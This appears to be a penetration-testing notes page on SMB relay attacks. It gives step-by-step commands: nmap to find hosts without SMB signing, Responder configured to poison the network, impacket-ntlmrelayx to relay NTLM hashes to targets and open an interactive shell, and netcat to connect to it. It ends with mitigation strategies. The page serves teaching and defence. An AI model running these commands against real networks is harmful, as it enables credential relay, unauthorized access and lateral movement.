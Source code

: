 # SMB Relay

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Requirements:

* SMB signing **must be disabled** or **not enforced** on the target
* Relay user credentials must be admin on machine for any real value.



#### Methodology:

* Identify Hosts without SMB signing
* Change `Responder` configuration before run it.
* Run `Responder` tool on the right network interface
* Set up our SMB relay



## Identify Hosts without SMB signing

```bash
nmap --script=smb2-security-mode.nse -p445 IP/24
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Change Responder conf

The settings SMB and HTTP must be off. This because we have to relay the hashes and not capture them. This port will be use by SMB relay.

```bash
sudo nano /etc/responder/Responder.conf
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Run Responder tool

```bash
sudo responder -I NETWORK_INTERFACE -dw -v
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Set up SMB relay

To set up SMB relay we will using `impacket-ntlmrelayx` tool.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

{% hint style="info" %}
The `targets.txt` file contains all computers identify in the step 1
{% endhint %}

{% code title="targets.txt" lineNumbers="true" %}
```
192.168.X.X
192.168.X.X
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### New connection auto-shell

We can set the `ntlmrelayx` to enstablish a shell when the relay can enters into a pc.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

Check the port in the output where the connection has been established,

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Use netcat to establish the connection.

```bash
nc 127.0.0.1 PORT
```



## Mitigation strategies:

* **Enable SMB Signing on all devices**
  * Pro: Completely stops the attack
  * Con: Con cause performance issues with file copies
* **Disable NTLM authentication on network**
  * Pro: Completely stops the attack&#x20;
  * Con: If kerberos stops working, Windows defaults back to NTLM
* **Account tiering**
  * Pro: Limits domain admins to specific tasks
  * Con: Enforcing the policy may be difficult
* **Local admin restrinction**
  * Pro: Can prevent a lot of lateral movement
  * Con: Potential increase in the amount of service desk tickets
